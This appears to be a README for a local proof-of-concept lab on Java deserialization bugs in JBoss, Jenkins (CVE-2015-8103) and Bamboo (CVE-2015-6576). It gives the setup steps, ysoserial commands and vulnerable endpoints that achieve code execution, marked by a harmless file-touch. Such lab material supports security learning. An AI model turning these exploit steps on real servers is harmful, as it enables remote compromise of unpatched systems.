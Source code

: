 Here there are 3 practical example (PoC) of the vulnerability when deserializing objects from untrusted sources.



JBOSS (CVE)
---------------------------------


- Download a vulnerable version of Jboss (in this case you can find the v5.1.0) 
- Check if you have installed the JDK 1.8
- Run jboss: java -jar ./JBoss/jboss-5.1.0.GA/bin/run.jar
- Download and open Burp: setup your proxy on localhost:9090
- In your browser start proxy on localhost:9090
- Generate the payload with ysoserial: java -jar ysoserial.jar CommonsCollections5 "touch /tmp/JbossVulnerable.txt" > JbossPayload.ser or use the payload inside the folder JBoss
- Open localhost:8080/invoker/JMXInvokerServlet
- In Burp "paste from file" and choose JbossPayload.ser
- Checkout in /tmp folder the execution of "touch /tmp/JbossVulnerable.txt"


References:



Jenkins (CVE-2015-8103)
---------------------------------

- Download a vulnerable version of Jenkins (in this case you can find the v1.649
- Check if you have installed the JDK 1.8
- java -jar ./jenkins-war-1.649.war
- java -cp ysoserial-master-v0.0.5-gb617b7b-16.jar ysoserial.exploit.JenkinsListener http://localhost:8080 CommonsCollections5 "touch /tmp/JenkinsVulnerable.txt"

References:



Bamboo (CVE-2015-6576)
---------------------------------

- Download and install openjdk 1.7
	sudo add-apt-repository ppa:openjdk-r/ppa  
	sudo apt-get update   
	sudo apt-get install openjdk-7-jdk  
- Download and install vulnerable version of Bamboo (v5.4.3 in this case) 
- Create folder /home/user/bamboohome/
- Add/update the property /Bamboo/atlassian-bamboo-5.4.3/atlassian-bamboo/WEB-INF/classes/bamboo-init.properties with
	bamboo.home=/home/user/bamboohome
- Get fingerprint -> localhost:8085/agentServer/GetFingerprint.action?agentType=elastic
- Generate payload with ysoserial
- Open localhost:8085/agentServer/message?fingerprint<copied fingerprint> and "copy from file" in burp
	java -jar ysoserial.jar CommonsCollections4 "touch /tmp/BambooVulnerable.txt" > BambooPayload.ser 
  or use the payload inside the folder JBoss



References:
https://www.slideshare.net/codewhitesec/exploiting-deserialization-vulnerabilities-in-java-54707478
https://askubuntu.com/questions/761127/how-do-i-install-openjdk-7-on-ubuntu-16-04-or-higher
